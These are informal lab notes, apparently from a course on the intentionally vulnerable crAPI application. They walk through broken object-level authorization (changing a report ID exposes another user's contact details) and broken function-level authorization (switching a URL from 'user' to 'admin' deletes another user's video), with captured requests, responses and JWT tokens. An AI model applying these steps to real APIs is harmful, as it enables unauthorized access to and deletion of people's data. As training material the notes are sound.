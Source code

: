 
Instructor starts in the localhost:8888/dashboard 

From there we click on the button Contact Mechanic

from there we get a form about contacting a mechanic, we enter our VIN, Mechanic name, and then a problem description and we click send service request.

in the problem description we type in test_data_123 so it can be identifiable in the burp suite history.

In the burp suite history there is one POST request, and we come across /workship/api/merchant/contact_mechanic

from here we take a look at the request, and we see this 

```json
{"mechanic_code":"TRAC_JHN","problem_details":"test_data_123","vin":"1GIGF95XMMN431588","mechanic_api":"http://localhost:8888/workshop/api/mechanic/receive_report","repeat_request_if_failed":false,"number_of_repeats":1}
```

and if we look at the response we see this:

```json
{"response_from_mechanic_api":{"id":6,"sent":true,"report_link":"http://localhost:8888/workshop/api/mechanic/mechanic_report?report_id=6"},"status":200}
```

we take note of this hidden API called `/api/mechanic/receive_report`

We go to postman, we create a new GET request 

the url for the GET request will be 
`http://localhost:8888/workshop/api/mechanic/mechanic_report?report_id=4`

taking note that we changed the id from 6 to 4

and we get back this:

```json
{
    "id": 4,
    "mechanic": {
        "id": 2,
        "mechanic_code": "TRAC_JME",
        "user": {
            "email": "james@example.com",
            "number": ""
        }
    },
    "vehicle": {
        "id": 2,
        "vin": "8VAUI03PRUQ686911",
        "owner": {
            "email": "pogba006@example.com",
            "number": "9876570006"
        }
    },
    "problem_details": "My car MG Motor - Hector Plus is having issues.\nCan you give me a call on my mobile 9876570006,\nOr send me an email at pogba006@example.com\nThanks,\nPogba.\n",
    "status": "pending",
    "created_on": "14 January, 2025, 04:09:09"
}
```


Something to note here is that while testing in postman, we had to grab the users Authorization cookie 
`Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJKb2huQHRlc3QuY29tIiwiaWF0IjoxNzM2OTQ3MzIzLCJleHAiOjE3Mzc1NTIxMjMsInJvbGUiOiJ1c2VyIn0.kkLCY-CN0pGy8m8fRZPCf2m9EYhfO3ihwJu4zXzt0L6Y0wnQTJtINRXVa9_DHkFukbvLwlGe4qIJp2OCO5LBnYro7Z4KhXgTSsBfcuALE2KcJpcvtCK45klBB5f0qc47tFqHm5jfkePLD7hw-gOnYKAu27AvtvLL8fwhWBM6a9cIF63PRq9aJIsno2N7ZqVgnUUK50p2yxj77Xv6HrTn61aL7uGLMRI_HafBSI7yvITxN2gUPiCf3NDLrX0unQIAInR3yjxRsHRxERHVmRRkIDPWkY37SL3vMEaLC0pEEX1EOGtFQ5BgcLTH2KDQjirlpQeAPiQ_hiTCFVwSms8Zvw`

and use it in the postman request, in the headers tab and this shows that our user John had access to someone else data proving BOLA.

Okay from here we move onto BFLA

we visit localhost:8888/my-profile

and we upload a video located at
┌──(kali㉿kali)-[~/Documents/labs/crAPI/postman_collections]
└─$ ls     
car.mp4  crAPI.postman_collection.json  crAPI.postman_environment.json

From here we look at the POST request that was captured in burpsuite and the POST request was sent at /identity/api/v2/user/videos

From here we look at the response and we see that the response has an object called

```json
{"id":52,"video_name":"car.mp4","conversion_params":"-v codec h264","profileVideo":....
```


okay so now we know that our video is numbered id 52

we go to postman

we go to the request
Post - signup example.com

we sign up a user

we get
{
    "message": "User registered successfully! Please Login.",
    "status": 200
}

from there we go to the GET request Login, we click Send

we get 

{
    "token": "eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJDYXJsb3MuU3RldWJlckBleGFtcGxlLmNvbSIsImlhdCI6MTczNjk3MzkzMywiZXhwIjoxNzM3NTc4NzMzLCJyb2xlIjoidXNlciJ9.SSbn3GH5QbvMN0Xb2NY7RC0HtxyrradbjUqJSA-d9TXQnfQev_namgF78ameMJ9JkY_tERJSHi2w9nJRP0xU7gNnPzcOWDQrOTQipNNFCPra2MjPiBd42X6OgaC5wyNQmqoJN0m105pV5f_CXbXZrLF4cHPlVf5PSt90mk5Yg64fwneooCHwU879jhCbyDMD4VjMmL28Howd5Z0KkyjOVawp_wrMfdx9b628fI2ySdRYQDN8BARRCO30LuMEv2UnOKysFx9HOitMAha2UXBM0y4OqsiejpaWqZP8VkOakRqQnxJI4v-HJLsyFgHdU4RpkES-wWwUHNHC3xu-uu48TQ",
    "type": "Bearer",
    "message": "Login successful",
    "mfaRequired": false
}

then we go to Post request 
Verify JWT Token, we click send and we get

{
    "message": "The token is a valid JWT token",
    "status": 200
}

then go and add a new video using the POST request named Add new Video

we go to Body tab, we click on form-data, they key is named file and value we can upload our mp4 file from the labs folder
once the video is uploaded we see we get 

"id": 53,
    "video_name": "car.mp4",
    "conversion_params": "-v codec h264",
    "profileVideo": "data:image/jpeg;base64,AAAAIGZ0eXBpc29tAAACAGlzb21pc28yYXZjMW1wNDEAAAAIZnJlZQADYhVtZGF0AAAACwYAB4D3MQAbd0CAAAAACAYBBAAACBCAAAABs2W4BAB/7IN6KT/

from here lets see if we can delete our user John video proving BFLA



we go to the DEL request named Delete Video and we get 

{
    "message": "This is an admin function. Try to access the admin API",
    "status": 403
}

when trying to delete video id 52

so the instructor says if we simply change the url from

{{url}}/identity/api/v2/user/videos/{{video_id}}

to 

{{url}}/identity/api/v2/admin/videos/{{video_id}}

then it should work, we make the changes and we get 

{
    "message": "User video deleted successfully.",
    "status": 200
}

this proves BLFA